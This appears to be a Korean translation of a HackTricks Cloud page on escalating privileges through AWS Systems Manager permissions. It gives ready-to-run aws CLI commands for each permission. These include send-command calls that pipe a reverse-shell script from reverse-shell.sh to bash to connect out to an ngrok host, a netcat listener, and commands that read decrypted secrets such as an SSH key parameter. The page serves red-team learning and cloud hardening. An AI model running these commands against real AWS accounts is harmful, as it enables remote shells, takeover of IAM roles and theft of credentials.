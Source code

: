 # AWS - SSM 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한을 가진 공격자는 **Amazon SSM 에이전트가 실행되는 인스턴스에서 명령을 실행**하고 **내부에서 실행되는 IAM 역할을 침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
만약 이미 침입당한 EC2 인스턴스 내에서 권한 상승을 위해 이 기술을 사용하는 경우, 다음과 같이 로컬에서 rev 쉘을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할로 직접 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한을 가진 공격자는 Amazon SSM 에이전트가 실행 중인 인스턴스에서 **SSH와 유사한 세션을 시작**하고 그 안에서 실행되는 IAM 역할을 **침해**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적인 영향:** SSM 에이전트가 실행 중인 EC2 IAM 역할에 직접적인 권한 상승.

#### ECS로의 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화**된 상태에서 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 컨테이너 내에서 명령을 실행할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면, 이는 "exec" 명령을 시작하는 기기와 SSM 세션 관리자를 통해 대상 컨테이너 사이에 안전한 채널을 생성함으로써 수행됩니다.\
따라서, `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 쉘을 얻을 수 있습니다. 단순히 다음을 실행하면 됩니다:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로의 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한을 가진 공격자는 **Amazon SSM 에이전트가 실행되는 인스턴스에서 SSH와 유사한 세션을 다시 시작**할 수 있으며, **끊어진** SSM 세션 상태와 함께 **그 안에서 실행되는 IAM 역할을 손상**시킬 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행되고 세션이 끊어진 상태에서 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접 권한 상승이 가능합니다.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

언급된 권한을 가진 공격자는 **SSM 매개변수를 나열하고** 이를 **평문으로 읽을 수** 있게 됩니다. 이러한 매개변수에는 종종 SSH 키 또는 API 키와 같은 **민감한 정보**가 포함되어 있을 수 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾을 수 있습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령어**를 나열하고, 그 중에서 **민감한 정보**를 발견할 수 있습니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령어 라인 안에 민감한 정보를 찾을 수 있습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 보낸 **명령어**를 나열하고 생성된 출력을 읽어 **민감한 정보**를 발견할 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령 라인의 출력 내에서 민감한 정보를 찾을 수 있습니다.

### Codebuild

빌드 중인 codebuild 프로젝트 내부로 들어가려면 SSM을 사용할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
